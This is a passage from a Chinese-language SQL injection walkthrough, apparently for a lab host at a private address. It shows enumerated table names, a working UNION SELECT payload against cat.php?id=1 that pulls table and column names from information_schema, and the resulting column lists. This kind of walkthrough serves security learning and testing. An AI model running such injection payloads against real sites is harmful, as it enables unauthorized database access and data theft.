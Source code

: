 ```

TRIGGERS
Picture: USER_PRIVILEGES

USER_PRIVILEGES
Picture: VIEWS

VIEWS
Picture: categories

categories
Picture: pictures

pictures
Picture: users

users
```

在表名中，有许多都是系统表。users 最可能是需要的表名，接下来的操作首先是针对 users。



**4）获取当前数据库下的字段名**

常规的 SQL查询当前数据库下的字段名：

```mysql
select column_name from information_schema.columns where table_schema='database_name' and table_name='table_name';
```

但是需要知道字段是属于哪个表的，因此使用以下查询：

```
http://192.168.55.3/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
```

查询结果和上面的结果相似，共 900  多行，这里用 python 做一个简单的数据处理：

```
表名：CHARACTER_SETS		字段名:CHARACTER_SET_NAME MAXLEN DEFAULT_COLLATE_NAME DESCRIPTION 

表名：COLLATIONS		字段名:CHARACTER_SET_NAME IS_COMPILED ID COLLATION_NAME SORTLEN IS_DEFAULT 

表名：COLLATION_CHARACTER_SET_APPLICABILITY		字段名:CHARACTER_SET_NAME COLLATION_NAME 

表名：COLUMNS		字段名:EXTRA TABLE_CATALOG CHARACTER_OCTET_LENGTH COLLATION_NAME COLUMN_DEFAULT NUMERIC_PRECISION PRIVILEGES ORDINAL_POSITION CHARACTER_MAXIMUM_LENGTH COLUMN_TYPE COLUMN_COMMENT COLUMN_KEY CHARACTER_SET_NAME TABLE_SCHEMA COLUMN_NAME DATA_TYPE NUMERIC_SCALE IS_NULLABLE TABLE_NAME 

表名：COLUMN_PRIVILEGES		字段名:COLUMN_NAME TABLE_CATALOG GRANTEE PRIVILEGE_TYPE IS_GRANTABLE TABLE_NAME TABLE_SCHEMA 

表名：ENGINES		字段名:SUPPORT COMMENT TRANSACTIONS XA SAVEPOINTS ENGINE 

表名：EVENTS		字段名:ON_COMPLETION EVENT_CATALOG INTERVAL_FIELD EVENT_NAME CREATED ENDS EXECUTE_AT SQL_MODE STARTS DATABASE_COLLATION EVENT_SCHEMA COLLATION_CONNECTION EVENT_TYPE INTERVAL_VALUE LAST_EXECUTED ORIGINATOR DEFINER TIME_ZONE LAST_ALTERED CHARACTER_SET_CLIENT EVENT_COMMENT EVENT_BODY EVENT_DEFINITION STATUS 

表名：FILES		字段名:AUTOEXTEND_SIZE AVG_ROW_LENGTH TABLE_CATALOG CHECK_TIME EXTRA INITIAL_SIZE FILE_TYPE DELETED_ROWS VERSION INDEX_LENGTH FULLTEXT_KEYS DATA_LENGTH UPDATE_TIME LAST_ACCESS_TIME FILE_ID LOGFILE_GROUP_NUMBER CREATE_TIME ROW_FORMAT RECOVER_TIME LOGFILE_GROUP_NAME MAXIMUM_SIZE UPDATE_COUNT MAX_DATA_LENGTH TABLE_SCHEMA FILE_NAME CHECKSUM TABLE_ROWS TRANSACTION_COUNTER TABLESPACE_NAME FREE_EXTENTS CREATION_TIME LAST_UPDATE_TIME DATA_FREE TOTAL_EXTENTS EXTENT_SIZE STATUS TABLE_NAME ENGINE 
```